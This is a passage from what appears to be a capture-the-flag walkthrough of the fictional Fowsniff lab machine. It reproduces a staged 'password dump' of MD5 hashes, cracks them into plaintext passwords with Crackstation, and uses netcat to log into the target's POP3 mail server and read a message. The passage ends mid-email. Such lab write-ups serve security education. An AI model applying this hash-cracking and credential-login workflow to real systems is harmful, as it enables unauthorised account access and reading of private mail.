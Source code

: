 baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!

Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!

MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P

l8r n00bz!

B1gN1nj4

-------------------------------------------------------------------------------------------------
This list is entirely fictional and is part of a Capture the Flag educational challenge.

All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.

Any similarities to actual people or entities is purely coincidental and occurred accidentally.
{% endhighlight %}

That was pretty new to me so I've spent a lot of time not looking for dumps on the Internet, but instead finding ways to break into machine. 

After finding them, we can start cracking using [Crackstation](https://crackstation.net/). 


{% highlight text %}
8a28a94a588a95b80163709ab4313aa4	md5	mailcall
ae1644dac5b77c0cf51e0d26ad6d7e56	md5	bilbo101
1dc352435fecca338acfd4be10984009	md5	apples01
19f5af754c31f1e2651edde9250d69bb	md5	skyler22
90dc16d47114aa13671c697fd506cf26	md5	scoobydoo2
a92b8a29ef1183192e3d35187e0cfabd	Unknown	Not found.
0e9588cb62f4b6f27e33d449e2ba0b3b	md5	carp4ever
4d6e42f56e127803285a0a7649b5ab11	md5	orlando12
f7fd98d380735e859f8b2ffbbede5a7e	md5	07011972
{% endhighlight %}

Great, most of them were easily found. Now let's figure out, whether is there any password pair that can give us access to any service? As in the dump there were mails and hashes, I decided to start from the `pop3` service. We can do this by hand, as the there are only 8 pairs.  

{% highlight text %}
root@kali:~# nc 10.0.0.4 110
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
	id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,